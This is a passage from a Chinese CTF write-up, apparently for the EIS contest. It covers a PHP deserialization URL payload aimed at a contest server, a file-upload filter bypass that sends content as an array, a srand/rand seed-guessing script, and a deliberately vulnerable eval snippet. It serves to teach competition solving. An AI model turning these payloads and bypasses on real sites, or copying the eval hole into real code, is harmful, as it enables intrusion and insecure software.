 ```php
}

?>


```

参考https://mo-xiaoxi.github.io/2016/07/24/X-NUCA/的Web4即可。

Payload:

`http://202.112.26.124:8080/95fe19724cc6084f08366340c848b791/index.php?foo=a:5:{s:6:"param1";s:9:"2018adsad";s:6:"param2";a:5:{i:0;a:1:{i:0;i:0;}i:1;i:0;i:2;i:2;i:3;i:3;i:4;i:4;}s:2:"a2";i:3;s:1:"d";i:4;s:1:"e";i:5;}&egg[1][]=%221%22&fish=%00&egg[0]="MyAns"`

![2](https://mo-xiaoxi.github.io/img/post/EIS/2.png)

## 文件上传

水题，用数组绕过正则过滤。设定文件名后缀为.php，文件内容上传时，将上传内容字段设为数组，即可绕过对尖括号的过滤。访问上传的php文件后即可得到flag。

## 随机数

```php
<?php
for($i=0;$i<1001;$i++) {
   srand($i);
   echo $i.' : '.rand(0,1000).', '.rand(0,1000).', '.rand(0,1000).', '.rand(0,1000).'</br>';
}
?>

```

通过上述代码生成了一个类似彩虹表的东西，查询一下即可。

![3](https://mo-xiaoxi.github.io/img/post/EIS/3.png)

## PHP代码审计

```php
<?php   
error_reporting(0); 
include "flag1.php"; 
highlight_file(__file__); 
if(isset($_GET['args'])){ 
    $args = $_GET['args']; 
    if(!preg_match("/^\w+$/",$args)){ 
        die("args error!"); 
    } 
    eval("var_dump($$args);"); 
} 
```
